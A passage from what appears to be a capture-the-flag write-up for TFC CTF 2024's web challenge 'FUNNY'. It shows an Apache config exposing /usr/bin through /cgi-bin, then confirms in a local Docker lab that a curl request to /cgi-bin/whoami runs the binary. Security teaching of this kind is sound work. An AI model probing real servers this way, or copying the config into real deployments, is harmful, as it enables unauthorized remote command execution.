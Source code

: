 Finally, the OS directory `/usr/bin` is allowed to anyone from accessing it:

```
<Directory /usr/bin>
    Order allow,deny
    Allow from all
</Directory>
```

Hmm... So this **Apache config allows us to visit anything in `/usr/bin` via request path `/cgi-bin`**??

Since OS directory `/usr/bin` is a place to store different binaries, **what happens if we send a request to `/cgi-bin/<whatever_binary>`? Will it execute the binary?**

To test it, we can build a **local testing environment** via Docker.

- Build the Docker image

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY/funny)-[2024.08.05|16:34:10(HKT)]
└> docker build --tag funny:latest .
[...]
```

- Run the Docker container with the built image

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY/funny)-[2024.08.05|16:34:33(HKT)]
└> docker run -p 80:1337 funny:latest
[...]
```

Now we should be able to test it in our `localhost`.

Let's try executing binary `whoami`:

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|16:37:11(HKT)]
└> curl http://localhost/cgi-bin/whoami
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
[...]
```

Hmm... It respond us with HTTP status code "500 Internal Server Error".

What's the Docker container's log message?

```shell
[Mon Aug 05 08:37:31.906129 2024] [cgi:error] [pid 9:tid 31] [client 172.17.0.1:56694] malformed header from script 'whoami': Bad header: www
172.17.0.1 - - [05/Aug/2024:08:37:31 +0000] "GET /cgi-bin/whoami HTTP/1.1" 500 600 "-" "curl/8.8.0"
```

Huh? "`malformed header from script 'whoami': Bad header: www`". As you can see, **it returned `Bad header: www`, so it must be executed**. However, due to the **malformed HTTP response**, Apache returned HTTP status code "500 Internal Server Error".
